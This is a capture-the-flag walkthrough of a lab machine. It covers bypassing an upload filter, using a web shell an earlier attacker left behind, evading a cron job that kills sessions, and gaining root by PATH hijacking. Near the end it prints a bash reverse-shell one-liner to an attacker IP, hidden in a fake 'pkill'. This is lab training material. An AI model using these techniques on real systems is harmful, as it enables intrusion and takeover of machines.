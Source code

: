 # Hacker vs. Hacker

We start with Nmap

`nmap -sC -sV 10.10.54.39` 

Finds 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](image.png)

Looking at the webpage we find a file upload section. We quickly upload our `php-reverse-shell.php` file.

![page.png](page.png)

But we get back a message.

![image.png](image%201.png)

Looking at the source code we find a code snippet for filtering uploads. The code verifies if there is “.pdf“ in the file name and the directory where the uploaded files are stored : `cvs/` . 

![source.png](source.png)

A change to our filename to `php-reverse-shell.pdf.php`  and upload. Still gets back the same message. Next we try opening the cvs directory. But directory listing is disabled.

![cvs.png](d0e66d33-c935-4abc-9f7c-507692cd8794.png)

We try fuzzing the directory for files with extension `.pdf.php` , to see if our file has been uploaded.

`ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -u [http://10.10.54.39/cvs/FUZZ](http://10.10.54.39/cvs/FUZZ) -e .pdf.php -t 100`

To our surprise we see another file  `shell.pdf.php` . Since the story behind the machine is that it has already been exploited and we are trying to regain control, existence of such a file is possible.

![image.png](image%202.png)

Running commands on that file returns results as expected.

[`http://10.10.54.39/cvs/shell.pdf.php?cmd=ls](http://10.10.54.39/cvs/shell.pdf.php?cmd=ls);`

![image.png](image%203.png)

Retrieving the `/etc/passwd`  file reveals the username `lachlan` .

![image.png](image%204.png)

And we get the first flag from the users folder.

![image.png](image%205.png)

Reading the `.bash_history` file shows a cron job `persistence`  and an attempt to change password.

![image.png](image%206.png)

Using the username and password we were able to login using SSH. But even before being able to run any commands we were getting kicked out along with a message “nope”. This might be the cron job the hacker has implemented to maintain persistence.

![image.png](image%207.png)

Looking at it we can see the path being set to `/home/lachlan/bin`  as the first one. (Not a good idea!)

![image.png](image%208.png)

Quick search and got a breakdown on the code:

/bin/sleep 1 → Delay for 1 second

for f in `/bin/ls /dev/pts` → loop all active pseudo terminal sessions

do /usr/bin/echo nope > /dev/pts/$f  → echo msg nope to all those sessions

pkill -9 -t pts/$f → kill those sessions

Since pseudo terminal sessions are killed, we disable it while logging in. 

We use -T flag of `ssh` , 

`-T      Disable pseudo-tty allocation`

![image.png](image%209.png)

We get a shell not interactive like bash or sh, but still can run commands.

The hacker is using `pkill` to kill the sessions and the file path given first is `/home/lachlan/bin` . Since the process start checking the path from left to right it will be checking `/home/lachlan/bin` first, which we can control. So we create our own `pkill` , which is a reverse shell to our attacker machine.

`echo "bash -c 'bash -i >& /dev/tcp/10.17.17.47/9001 0>&1'" > pkill` 

`chmod  +x pkill` 

![image.png](image%2010.png)

The process is run as root. So we get a root shell back.

![image.png](image%2011.png)